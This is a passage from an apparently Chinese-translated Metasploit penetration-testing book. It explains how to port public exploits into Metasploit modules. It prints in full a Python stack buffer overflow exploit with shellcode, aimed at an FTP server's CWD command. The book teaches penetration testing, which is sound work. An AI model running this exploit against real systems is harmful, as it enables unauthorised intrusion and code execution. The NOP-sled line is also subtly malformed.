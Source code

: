# 十四、移植漏洞

在上一章中，我们讨论了如何在 Metasploit 中编写漏洞利用。但是，在已经存在公共漏洞的情况下，我们不需要为特定软件创建漏洞。公开可用的漏洞可能使用不同的编程语言，如 Perl、Python、C 或其他语言。现在，让我们了解一些在各种不同编程语言中将漏洞移植到 Metasploit 框架的策略。这种机制使我们能够将现有的漏洞利用转化为与 Metasploit 兼容的漏洞利用，从而节省时间并使我们能够动态切换有效负载。在本章结束时，我们将了解以下主题：

*   从各种编程语言移植漏洞
*   从独立开发中发现要点
*   从现有独立扫描仪/工具脚本创建 Metasploit 模块

如果我们能够从现有的漏洞中找出哪些要点可以在 Metasploit 中使用，那么将脚本移植到 Metasploit 框架是一件容易的工作。

这种将漏洞利用移植到 Metasploit 的想法通过使独立脚本在广泛的网络（而不是单个系统）上可用来节省时间。此外，由于可以从 Metasploit 访问每个漏洞，因此它使渗透测试更有组织性。在接下来的部分中，让我们了解如何使用 Metasploit 实现可移植性。

# 导入基于堆栈的缓冲区溢出漏洞

在接下来的示例中，我们将看到如何将用 Python 编写的漏洞导入 Metasploit。可从以下位置下载公开可用的漏洞：[https://www.exploit-db.com/exploits/31255/](https://www.exploit-db.com/exploits/31255/) 。让我们按如下方式分析该漏洞：

```
import socket as s 
from sys import argv 

host = "127.0.0.1" 
fuser = "anonymous" 
fpass = "anonymous" 
junk = '\x41' * 2008 
espaddress = '\x72\x93\xab\x71' 
nops = 'x90' * 10 
shellcode= ("\xba\x1c\xb4\xa5\xac\xda\xda\xd9\x74\x24\xf4\x5b\x29\xc9\xb1"
"\x33\x31\x53\x12\x83\xeb\xfc\x03\x4f\xba\x47\x59\x93\x2a\x0e"
"\xa2\x6b\xab\x71\x2a\x8e\x9a\xa3\x48\xdb\x8f\x73\x1a\x89\x23"
"\xff\x4e\x39\xb7\x8d\x46\x4e\x70\x3b\xb1\x61\x81\x8d\x7d\x2d"
"\x41\x8f\x01\x2f\x96\x6f\x3b\xe0\xeb\x6e\x7c\x1c\x03\x22\xd5"
"\x6b\xb6\xd3\x52\x29\x0b\xd5\xb4\x26\x33\xad\xb1\xf8\xc0\x07"
"\xbb\x28\x78\x13\xf3\xd0\xf2\x7b\x24\xe1\xd7\x9f\x18\xa8\x5c"
"\x6b\xea\x2b\xb5\xa5\x13\x1a\xf9\x6a\x2a\x93\xf4\x73\x6a\x13"
"\xe7\x01\x80\x60\x9a\x11\x53\x1b\x40\x97\x46\xbb\x03\x0f\xa3"
"\x3a\xc7\xd6\x20\x30\xac\x9d\x6f\x54\x33\x71\x04\x60\xb8\x74"
"\xcb\xe1\xfa\x52\xcf\xaa\x59\xfa\x56\x16\x0f\x03\x88\xfe\xf0"
"\xa1\xc2\xec\xe5\xd0\x88\x7a\xfb\x51\xb7\xc3\xfb\x69\xb8\x63"
"\x94\x58\x33\xec\xe3\x64\x96\x49\x1b\x2f\xbb\xfb\xb4\xf6\x29"
"\xbe\xd8\x08\x84\xfc\xe4\x8a\x2d\x7c\x13\x92\x47\x79\x5f\x14"
"\xbb\xf3\xf0\xf1\xbb\xa0\xf1\xd3\xdf\x27\x62\xbf\x31\xc2\x02"
 "\x5a\x4e")

sploit = junk+espaddress+nops+shellcode
conn = s.socket(s.AF_INET,s.SOCK_STREAM)
conn.connect((host,21))
conn.send('USER '+fuser+'\r\n')
uf = conn.recv(1024)
conn.send('PASS '+fpass+'\r\n')
pf = conn.recv(1024)
conn.send('CWD '+sploit+'\r\n')
cf = conn.recv(1024)
conn.close()

```
